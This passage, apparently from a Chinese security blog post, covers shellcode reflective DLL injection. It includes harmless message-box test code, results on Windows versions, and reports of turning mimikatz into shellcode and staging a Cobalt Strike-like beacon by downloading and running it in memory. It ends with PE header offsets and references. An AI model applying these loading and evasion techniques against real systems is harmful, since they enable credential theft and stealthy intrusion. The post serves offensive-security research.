VOID NTAPI TlsCallback(PVOID DllHandle, DWORD Reason, PVOID Reserved)
{
    char message[256];
    const char* reasonStr = "Unknown";
    
    switch (Reason)
    {
    case DLL_PROCESS_ATTACH:
        reasonStr = "PROCESS_ATTACH";
        break;
    case DLL_PROCESS_DETACH:
        reasonStr = "PROCESS_DETACH";
        break;
    case DLL_THREAD_ATTACH:
        reasonStr = "THREAD_ATTACH";
        return; // 线程附加不显示消息框
    case DLL_THREAD_DETACH:
        reasonStr = "THREAD_DETACH";
        return; // 线程分离不显示消息框
    }
    
    // 显示回调信息
    wsprintfA(message, "Hello Oneday!
"
              "DLL Handle: 0x%p
"
              "Reason: %s
"
              "Reserved: 0x%p",
              DllHandle, reasonStr, Reserved);
    
    MessageBoxA(NULL, message, "TLS Callback Demo", MB_OK | MB_ICONINFORMATION);
}

// 5. 标准 DLL 入口点
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    char message[128];
    
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        wsprintfA(message, "Hello Oneday!
hinstDLL: 0x%p", hinstDLL);
        MessageBoxA(NULL, message, "DllMain", MB_OK | MB_ICONINFORMATION);
        break;
        
    case DLL_PROCESS_DETACH:
        MessageBoxA(NULL, "Hello Oneday!", "DllMain", MB_OK | MB_ICONINFORMATION);
        break;
    }
    
    return TRUE;
}
```

测试exe

```
#include <windows.h>  // 必须包含Windows头文件以使用MessageBox

int main() {
    // 调用MessageBox函数
    int result = MessageBox(
        NULL,                   // 父窗口句柄（无父窗口设为NULL）
        L"Hello,Oneday!",   // 对话框正文内容
        L"操作确认",             // 对话框标题
        MB_YESNO | MB_ICONQUESTION  // 按钮组合+图标类型
    );

    // 根据用户点击的按钮处理逻辑
    if (result == IDYES) {
        MessageBox(NULL, L"您选择了【是】", L"结果提示", MB_OK | MB_ICONINFORMATION);
    }
    else if (result == IDNO) {
        MessageBox(NULL, L"您选择了【否】", L"结果提示", MB_OK | MB_ICONWARNING);
    }

    return 0;
}
```

## 5.1 概念验证

### 5.1.1 测试前置式RDI

只展示win11、win7、windows server 2012，其余版本不展示但也验证过是可行的。

win10 dll



windows server 2012 dll



win7 dll



win11 exe



windows server 2012



win7 exe



### 5.1.2 测试后置式RDI

避免测试的篇幅过长，这里只写win11的dll和exe测试结果，其余测试环境均是可行的

win11 dll



win11 exe



### 5.1.3 测试内嵌式RDI

避免测试的篇幅过长，这里写win10和win11的dll测试结果，其余测试环境均是可行的

win11 dll



win10 dll



## 5.2 实战

### 5.2.1 将mimikatz.exe转成shellcode

测试样本： [Releases · gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz/releases)

前置式RDI将mimikatz生成shellcode，并执行，可以看到其加载后的mimikatz功能正常。



后置式RDI也同样可以将mimikatz转成shellcode。



### 5.3.2 类似Cobalt Strike的反射Beacon上线

其实这个也没什么好测的，但我也要完成一直以来支撑我至此的信念——完成Cobalt Strike的反射Beacon上线

使用前置式RDI将测试DLL编译成shellcode，然后放置到服务器上，然后使用x64 stager（之前的文章有给出相关代码，当然我github上也会给出）从服务器下载stage并执行，至此完成类似Cobalt Strike的反射Beacon上线，精简如下流程。

```
Stager (独立小程序) -> 下载Stage (你的SRDI Shellcode) -> 内存加载Stage -> Beacon上线。
```

x64 stager的代码大体上没有什么变化，只是最后跳转执行stage这段代码要修改，说来说去还是RSP对齐的原因，有兴趣的师傅自己用windbg去调式分析吧。





一大心愿完成了，我也是心满意足的离开了。

# 六、结语

写到这里，终于长呼一口气，从最开始的构想再到独自摸索的孤独，最终化作这篇凝结心血的文章和亲手锻造的工具，前前后后共计3个月的时间，这中间的遇到的困难真是难以言说，我也不想再这里花费更多的笔墨，只希望这篇文章和工具能给各位师傅们一些帮助，哪怕只是一点一点，这也能体现出我文章的价值。

|  |  |  |  |
| --- | --- | --- | --- |
| 特性 | 前置式RDI | 后置式RDI | 内嵌式RDI |
| **RDI位置** | PE头部**之前** | PE文件**末尾** | 定义在DLL的.text节 |
| **执行入口** | 引导程序(Bootstrap) | 修改后的DOS头(Stub) | 修改后的DOS头(Stub) |
| **PE基址查找** | 引导程序计算 | Stub计算 | 依赖"MZ"签名回溯 |
| **是否需要引导/Stub** | **需要** (较为复杂) | **需要** (小巧) | **需要** (小巧) |
| **关键优势** | 执行流清晰, 栈/寄存器控制力强 | 将DOS头作为stub，可消除部分PE特征 | 工具链成熟(CS, MSF) |
| **关键劣势** | Bootstrap稍大 | 需处理Stub覆盖 | **强特征** (MZ, 导出函数) |
| **支持类型** | **EXE & DLL** | **EXE & DLL** | **仅DLL** |
| **典型用途** | 通用的PE->Shellcode转换工具 | 通用的PE->Shellcode转换工具 | 定制反射DLL武器 |

这个项目，我会去维护，主要是以下几点

1. 增加x86的支持
2. 增加高级功能，比如说支持用户数据、混淆PE特征等等
3. 增加对 .NET程序的支持
4. 继续完善RDI的功能，比如说增加延迟导入、导出转换等等
5. 进一步缩小srdi的体积
6. 修复bug和解决师傅们提出的issue

真的不知道该说什么了，我要为了生活放下网安之旅，但理想不必死去，只是蛰伏，我只是为了生活暂时转身，这不是放弃，江湖很大，但技术星河中同频的人终会重逢，各位师傅，咱们江湖有缘再见。

至于后续的技术博客更新，请允许我保留可能性，虽然我还有很多很有趣的想法也很想将其写成文章，但生活还要继续，或许某天当生活尘埃落定，我仍会以技术爱好者的身份继续分享所得。

"莫愁前路无知己，天下谁人不识君"—— 谨以此句与所有坚持在网安道路上的追梦者共勉


还是忍不住爆个粗口，TMD，真是心累，回老家种地得了。

# 附录

在这里给出代码中出现的各字段的偏移，可能遗漏了某些字段，也请各位师傅仔细判断，还有注意这是X64架构的。

|  |  |
| --- | --- |
| 名称 | 偏移 |
| `IMAGE_DOS_HEADER.e_lfanew` | 位于DOS头偏移3Ch |
| `IMAGE_OPTIONAL_HEADER64.SizeOfImage` | 位于NT头偏移50h |
| `IMAGE_OPTIONAL_HEADER64.SizeOfHeaders` | 位于NT头偏移54h |
| `IMAGE_FILE_HEADER.SizeOfOptionalHeader` | 位于NT头偏移14h |
| `节表起始地址` | 位于NT头偏移sizeof（Signature）+sizeof（IMAGE\_FILE\_HEADER）+SizeOfOptionalHeader |
| `FileHeader.NumberOfSections` | 位于NT头偏移6 |
| `IMAGE_SECTION_HEADER.SizeOfRawData` | 位于节头偏移10h |
| `IMAGE_SECTION_HEADER.PointerToRawData` | 位于节头偏移14h |
| `IMAGE_SECTION_HEADER.VirtualAddress` | 位于节头偏移0Ch |
| `重定位数据目录OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC]` | 位于NT头偏移0B0h |
| `重定位表的偏移（第一个重定位块）` | 位于重定位数据目录偏移0 |
| `重定位块的IMAGE_BASE_RELOCATION.VirtualAddress` | 位于重定位块偏移0 |
| `重定位块的IMAGE_BASE_RELOCATION.SizeOfBlock` | 位于重定位块偏移4 |
| `导入数据目录OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT]` | 位于NT头偏移90h |
| `导入表的偏移（第一个导入描述符）` | 位于导入数据目录偏移0 |
| `INT的偏移IMAGE_IMPORT_DESCRIPTOR.OriginalFirstThunk` | 位于导入描述符偏移0 |
| `IAT的偏移IMAGE_IMPORT_DESCRIPTOR.FirstThunk` | 位于导入描述符偏移10h |
| `需要导入的DLL名称IMAGE_IMPORT_DESCRIPTOR.Name` | 位于导入描述符偏移0ch |
| `IMAGE_IMPORT_BY_NAME数组的地址IMAGE_THUNK_DATA64.AddressOfData` | 位于IMAGE\_THUNK\_DATA64偏移0 |
| `IMAGE_SECTION_HEADER.Characteristics` | 位于节头偏移24h |
| `TLS 数据目录OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_TLS]` | 位于NT头偏移0D0h |
| `TLS目录的偏移` | 位于TLS数据目录偏移0 |
| `TLS目录的大小` | 位于TLS数据目录偏移4 |
| `回调函数数组的首地址IMAGE_TLS_DIRECTORY64.AddressOfCallBacks` | 位于TLS目录18h |
| `IMAGE_FILE_HEADER.Characteristics` | 位于NT头偏移16h |
| `OptionalHeader.AddressOfEntryPoint` | 位于NT头偏移28h |

# 参考资料

1、[An Improved Reflective DLL Injection Technique](https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html)

2、[monoxgas/sRDI: Shellcode implementation of Reflective DLL Injection. Convert DLLs to position independent shellcode](https://github.com/monoxgas/sRDI/)

3、[hasherezade/pe\_to\_shellcode: Converts PE into a shellcode](https://github.com/hasherezade/pe_to_shellcode)

4、[Clematis/readme\_ch.md at main · CBLabresearch/Clematis](https://github.com/CBLabresearch/clematis/blob/main/readme_ch.md)

5、[sRDI – Shellcode Reflective DLL Injection - NetSPI](https://silentbreaksecurity.com/srdi-shellcode-reflective-dll-injection/)

6、[TheWover/donut: Generates x86, x64, or AMD64+x86 position-independent shellcode that loads .NET Assemblies, PE files, and other Windows payloads from memory and runs them with parameters](https://github.com/TheWover/donut)

7、[ReflectiveDLLInjection变形应用 | idiotc4t's blog](https://idiotc4t.com/defense-evasion/reflectivedllinjection-variation)
